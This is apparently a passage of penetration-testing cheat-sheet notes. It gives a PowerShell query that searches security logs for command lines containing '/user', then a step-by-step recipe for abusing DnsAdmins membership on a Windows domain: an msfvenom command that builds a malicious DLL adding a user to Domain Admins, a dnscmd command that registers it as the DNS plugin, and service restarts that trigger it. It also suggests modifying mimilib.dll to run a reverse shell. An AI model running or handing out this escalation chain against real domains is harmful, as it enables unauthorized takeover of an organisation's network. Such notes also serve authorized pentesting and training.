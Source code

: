  - Searching Security Logs Using Get-WinEvent :
```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

#### DnsAdmins
#DnsAdmins

**Leveraging DnsAdmins Access**

 - Generating Malicious DLL :
```sh
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

 - Confirming Group Membership :
```powershell
Get-ADGroupMember -Identity DnsAdmins
```

 - Loading Custom DLL :
```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

**Check restart DNS Privilege :**

 -  Finding User's SID :
```powershell
wmic useraccount where name="netadm" get sid
```

-  Checking Permissions on DNS Service :
```powershell
sc.exe sdshow DNS
```

- Restart Dns service : 
```sh
sc stop dns
sc start dns
```

- Confirming Group Membership : 
```powershell 
net group "Domain Admins" /dom
```

`Don't forget to logout or restart your sessions to apply the change !!`

**Using Mimilib.dll**

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.
